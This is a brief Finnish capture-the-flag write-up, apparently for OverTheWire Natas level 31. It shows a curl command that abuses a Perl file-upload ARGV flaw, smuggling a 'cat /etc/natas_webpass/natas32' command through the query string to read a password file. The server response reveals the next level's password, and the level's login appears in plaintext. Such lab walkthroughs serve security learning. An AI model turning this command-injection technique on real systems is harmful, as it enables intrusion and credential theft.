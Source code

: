 
**TOINEN METHODI**, 
en uskonut tämäkin toimii mutta piti apua saada chatgpt:ltä ehdottomasti, koska testataan curl komentoa:


```
┌──(kali㉿kali)-[~]
└─$ curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y \
  -F "submit=Upload" \
  -F "file=ARGV" \
  -F "file=@/home/kali/Downloads/Book1.csv;type=text/csv" \
  "http://natas31.natas.labs.overthewire.org/index.pl?cat+/etc/natas_webpass/natas32+|"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas31", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- morla/10111 -->
<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas31</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```